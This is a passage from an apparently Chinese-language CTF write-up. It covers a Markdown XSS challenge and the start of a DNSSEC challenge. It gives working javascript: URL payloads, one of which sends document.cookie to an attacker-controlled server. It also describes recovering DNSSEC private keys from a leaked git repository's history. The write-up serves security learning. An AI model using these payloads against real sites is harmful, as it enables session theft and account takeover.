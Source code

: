 ```Html

```

一开始fuzz出了data的payload，但是DATA协议是无法获取cookie信息的，所以无法获得admind的cookie信息。

后面，测出如下payload：

```html
![a](javascript:prompt(document.cookie))\
<javascript:window.open('http://vps/?id='+document.cookie)>'
=>
<p><a href="javascript:window.open('http://vps:7890/?id='+document.cookie)">javascript:window.open('http://vps:7890/?id='+document.cookie)</a>'</p>
```

绕过，获得cookie。

![markdownxss_flag](https://moxiaoxi.info/img/post/hacklu/markdownxss_flag.png)



## DnSoSecure

查看网页源码，有一个源码泄漏点。

```Html
<!-- <a href="/static/source.zip">Source</a> -->
```

下载下来，获得一个git库，通过回退版本，可以得到DNSSEC的KSK和ZSK。

```bash
.
├── __init__.py
├── forms.py
├── keys
│   ├── Ksecret+007+11537.key
│   ├── Ksecret+007+11537.private
│   ├── Ksecret+007+26883.key
│   └── Ksecret+007+26883.private
├── keys.zip
├── static
│   ├── css
│   │   ├── custom.css
│   │   ├── normalize.css
│   │   ├── skeleton.css
│   │   └── test.css
│   └── img
│       └── background.jpg
├── templates
│   ├── base.html
│   └── index.html
├── utils.py
└── views.py
```
